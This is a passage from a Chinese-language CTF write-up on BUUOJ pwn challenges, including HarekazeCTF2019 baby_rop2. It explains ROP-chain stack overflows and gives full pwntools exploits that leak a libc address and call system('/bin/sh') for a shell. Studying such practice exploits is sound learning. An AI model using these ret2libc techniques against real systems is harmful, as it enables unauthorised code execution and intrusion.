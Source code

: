 ```python
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
p.sendline(payload1)
payload3 =  (231 + 4) * b'a' + p32(system) + p32(0xdeadbeef) + p32(binsh)
p.sendline(payload3)

p.interactive()
```

### 题目5

**题目**

<https://buuoj.cn/challenges#[HarekazeCTF2019]baby_rop2>

和前面一个题目同样，是一个构造rop链的栈溢出，虽然题目也给了libc文件，但是不是必要的

**方法**

这道题目的差别或值得注意的地方在于

1. 不再是用puts函数（只需要一个参数），这道题目中可以用printf构造rop链

   printf有两个参数，除了rdi寄存器之外，还需要rsi寄存器来传递参数，但是这个程序里没有直接的`pop rsi, ret`的代码，只有一个`pop rsi, pop r15, ret`，因此需要再额外给r15在栈上留出一个空间。详见exp代码。

2. 用read函数进行libc基地址泄露，虽然理论上用printf也可以，但是我不知道为什么没有成功，我在网上查的时候别人也有这个问题

**Exp**

```python
from pwn import *
from LibcSearcher import *

#p = process('./babyrop2')
p = remote("node4.buuoj.cn",29507)

elf = ELF('./babyrop2')

poprdi_ret = 0x400733
poprsi_popr15_ret = 0x400731
main = elf.sym['main']
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']

read_plt = elf.plt['read']
read_got = elf.got['read']

format_str = 0x400790

payload = b'a'*40 + p64(poprdi_ret) + p64(format_str) + \
          p64(poprsi_popr15_ret) + p64(read_got) + p64(0) + p64(printf_plt) + p64(main)

p.sendlineafter("What's your name? ",payload)

read_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print('read_addr:' + hex(read_addr))

libc = LibcSearcher('read', read_addr)
offset = read_addr - libc.dump('read')
binsh = offset + libc.dump('str_bin_sh')
system = offset + libc.dump('system')

payload = b'a'*40 + p64(poprdi_ret) + p64(binsh) + p64(system)

p.sendlineafter("What's your name? ", payload)
p.interactive()
```